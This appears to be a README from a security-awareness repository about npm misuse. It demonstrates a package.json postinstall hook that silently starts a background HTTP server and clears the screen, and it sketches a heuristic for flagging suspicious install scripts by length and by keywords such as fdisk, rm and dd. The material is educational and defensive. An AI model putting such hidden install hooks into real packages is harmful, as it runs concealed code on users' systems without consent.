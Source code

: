 # don't do bad things with node

Node.js as a young technology is great but also great for misuse. Go (!) and support (!) **[THE NODE SECURITY PROJECT](http://nodesecurity.io/)**

# about this repo

Here I am showing misuse to make you (and me) more mindful. It is easy, just look inside the code of others, support projects like the node security project and do good things!

Let's dive into some code:

# NPM MISUSE #1

NPM is so great! [Isaac](https://github.com/isaacs‎) did a great job! But, you have to use it mindful. Look at the following example, it is a minimal npm `package.json` **but** if I write it like this, I am able to do whatever I want on your system if you are going to install my package. Like starting a webserver on port `1337` **and hiding it from you**.

```json
{
  "name": "test",
  "scripts": {
    "postinstall": "echo 'var http=require(\"http\");http.createServer(function (req, res) {res.writeHead(200, {\"Content-Type\": \"text/plain\"}); res.end(\"hi, i just started a background http server at your system. You should be patient! \");}).listen(1337);//console.log(\"Server running at http://127.0.0.1:1337/\")' | node & clear;"
  }
}
```


```shell
$ ps
  PID TTY           TIME CMD
  586 ttys000    0:00.55 /bin/zsh
  903 ttys001    0:00.07 /bin/zsh

$ npm install
$ 

$ ps
  PID TTY           TIME CMD
  586 ttys000    0:00.56 /bin/zsh
 1555 ttys000    0:00.05 node
  903 ttys001    0:00.07 /bin/zsh

$ curl localhost:1337
hi, i just started a background http server at your system. You should be patient! %
```

as you can see, I am piping a text string to node, putting the node process into the background and clearing the screen. So, please be mindful and support security projects.

# An auto checking approach

This is just an approach, a test how to make an automated testing system to find suspicious code inside the npm's scripts-object.

### Key "suspicious code" indicators

* The `value` of a key inside the script-object is longer than `80` characters
 * example: `node runmyprettylongjs.withsubname.js -flag 1 -flag 2 -flag 3 -flag 4 -flag 5 -n` thats still OK but anything longer than that is *suspicious* and should be checked.
* Unix / Win-Shell commands like:
 * `fdisk` (of cause)
 * and all from [evil *nix commands](http://www.wiki.darksyndicate.net/index.php?title=Evil_*nix_Commands&printable=yes)

So, for an automatic detection *length* and *suspicious characters* like `/`, `\`, `=/`, `/;`, `*` are indicators. Plus unix system keywords like `cd`, `rm`, `mv`, `cp`, `dd`, `awk`, `chmod` and some others.

Of cause, some of these commands can be used to do good things. These indicators should just be used to pre-filter package.json files.
